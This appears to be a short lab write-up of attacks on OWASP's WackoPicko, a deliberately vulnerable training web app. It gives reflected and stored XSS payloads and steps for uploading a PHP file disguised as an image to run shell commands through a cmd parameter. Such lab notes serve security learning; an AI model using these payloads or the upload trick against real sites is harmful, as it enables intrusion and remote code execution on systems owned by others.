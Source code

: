 +++
title = "OWASP Broken Web Apps WackoPicko"
slug = "owasp-broken-web-apps-wackopicko"
default_language = "en"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

Right off the bat, try hitting the search box with a simple XSS payload:

```javascript
search.php?query=&lt;script&gt;alert(1)&lt;%2Fscript&gt;&x=24&y=12
```

#/guestbook.php

Placing this:

```html
&lt;script&gt;confirm(1)&lt;/script&gt;
&lt;img src=x onerror='confirm(2)' /&gt;
```

into a comment body yields stored XSS

Next I made an account and started uploading stuff, turns out php files are uploadable and executable:

1. Make the file's name be: whatever.php
2. Make its extension: .jpg
3. Upload
4. Open the broken image on the page you're redirected to and open its URL in a new tab, remove the 550 from the URL
5. ?cmd=ls -latr



